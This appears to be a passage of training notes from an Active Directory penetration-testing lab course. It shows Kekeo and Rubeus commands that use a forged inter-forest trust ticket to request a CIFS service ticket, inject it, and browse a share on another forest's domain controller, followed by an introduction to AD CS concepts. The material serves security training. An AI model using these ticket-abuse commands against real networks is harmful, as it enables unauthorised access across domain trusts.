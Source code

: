 **Abuse with Kekeo**

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket:
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

Use the TGS to access the targeted service:
```powershell
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

> Tickets for other services (like **HOST** and **RPCSS for WMI**, **HTTP for PowerShell Remoting** and **WinRM**) can be created as well


**Abuse with Rubeus**

Using the same TGT which we forged earlier:
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

```powershell
net view \\<domain>  
# This can enum the shares
```

Learning Objective 20

- With DA privileges on dollarcorp.moneycorp.local, get access to SharedwithDCorp share on the DC of eurocorp.local forest



# Across domain trusts - AD CS
Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest.

- AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more.
- AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization.

- CA - The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA.
- Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
- CSR - Certificate Signing Request made by a client to the CA to request a certificate.
- Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
- EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

